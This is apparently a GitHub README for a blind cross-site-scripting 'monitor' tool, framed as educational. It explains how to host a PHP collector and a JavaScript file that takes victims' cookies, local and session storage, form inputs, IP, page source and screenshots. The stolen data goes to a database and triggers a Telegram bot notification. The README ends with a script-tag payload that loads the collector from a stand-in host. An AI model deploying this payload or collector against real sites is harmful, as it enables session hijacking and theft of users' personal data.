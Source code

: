 # XSS Monitor tool for OOB Blind-XSS
 
The XSS-Monitor Tool is provided for educational purposes only.

**Created By** : ​🅰🆁🆂🅷🅸🆈🅰
 
This tool is designed for testing XSS vulnerabilities and helping make the Internet and Web applications more secure. By using this tool, you get this item from user load xss : 

Cookies ,
Location,
UserAgent,
User ip,
Local Data,
Session Data,
Inputs item,
Page HTML source code,
Page Title,
ScreenShot of page

send notification to Telegram with BOT and save to database when trigger fire.

## How to install :

  1.Upload alert.php , eksss.js on your host
  
  2.change "https://YourSiteName.com/alert.php" in eksss.js to your host and path of PHP file and save it.
  
  3.open alert.php and set your information of Database config 

  ```php
      $servername = "localhost";
      $username = "UserDB_xss";
      $password = "PAS-DB";
      $dbname = "DB-name_monitor"
  ```

  4.set Telegram Bot information and ChatID Acount which you want to be notified :

  ```php
      $token = "**********Bot_Token***************";
      $chat_id = "****YourTelegramChatID";
  ```
      
  5.save alert.php 

## How to Use:

  use this payload for test :

```js
   <script src=https://YourSiteName.com/eksss.js></script>
```  
